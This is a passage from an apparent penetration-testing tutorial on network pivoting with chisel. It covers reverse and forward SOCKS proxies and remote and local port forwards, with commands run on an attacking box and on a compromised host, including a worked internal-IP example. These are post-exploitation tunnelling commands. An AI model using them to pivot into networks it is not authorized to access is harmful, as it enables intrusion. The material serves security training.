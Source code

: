 #### Reverse SOCKS Proxy:

On our own attacking box we would use a command that looks something like this:

`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen LISTEN_PORT.

On the compromised host, we would use the following command:

`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (&) to background the processes.

#### Forward SOCKS Proxy:
Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

First, on the compromised host we would use:

`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:

`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`


#### Remote Port Forward:
A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:

`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back is slightly different this time, however:

`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`


 let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:

`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:

`./chisel server -p 1337 --reverse & `

#### Local Port Forward:

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:

`./chisel server -p LISTEN_PORT`
